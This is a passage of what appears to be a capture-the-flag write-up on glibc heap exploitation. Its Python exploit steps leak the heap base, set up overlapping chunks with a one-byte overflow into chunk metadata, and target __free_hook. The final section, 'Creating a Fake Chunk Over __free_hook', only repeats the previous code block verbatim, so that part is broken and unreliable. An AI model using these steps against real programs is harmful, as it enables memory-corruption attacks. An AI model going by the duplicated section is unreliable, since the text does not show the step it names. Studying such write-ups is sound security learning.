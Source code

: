 ```
```
###  Extracting Heap Base Address
Now the exploit has both libc base and heap base addresses, providing full knowledge of the memory layout.
```py
leakheap= showplan(1)[1].strip()
leakheap = leakheap.ljust(8,b'\x00')
leakheap = u64(leakheap)
leakheap = leakheap << 8
heap_base = leakheap - 0xb00
```

Show contents of chunk #1 which contains a heap address due to tcache manipulation.
Process the leak similar to the libc leak (padding, conversion, bit shifting).
Calculate the heap base address by subtracting 0xb00 from the leaked value
### Setting Up Overlapping Chunks
```py
deleteplan(2)   
createplan(b'a'*(0x500 - 9),0x500 - 8)  # 2
createplan(b'b'*(0x500 - 9),0x500-8)  # 3
createplan(b'c'*(0x68 - 9),0x68-8)  # 4
```
```
Free chunk #2
Allocate several new chunks with specific sizes to create a favorable heap layout:
Chunk #2: ~0x500 bytes
Chunk #3: ~0x500 bytes
Chunk #4: ~0x68 bytes (tcache-sized chunk)
```
### Overwriting Chunk Metadata
The precise offset writing and metadata modification create overlapping chunks, which is critical for the next step.
```py
editplan(3,b'x'*(0x500-9))
deleteplan(1)
deleteplan(3)
editplan(2,b'a'*(1273-9)+p8(0x0)*8+p8(0x01))
deleteplan(4)
```
```
Edit chunk #3 to fill it completely (no NULL terminator)
Free chunks #1 and #3
Use chunk #2 to perform a targeted one-byte overflow:
Write 'a' characters up to a specific offset (1273-9)
Write 8 NULL bytes
Write a single 0x01 byte - this is manipulating a crucial metadata field
Free chunk #4 to complete the heap manipulation
```
### Creating a Fake Chunk Over __free_hook
```py
editplan(3,b'x'*(0x500-9))
deleteplan(1)
deleteplan(3)
editplan(2,b'a'*(1273-9)+p8(0x0)*8+p8(0x01))
deleteplan(4)
```
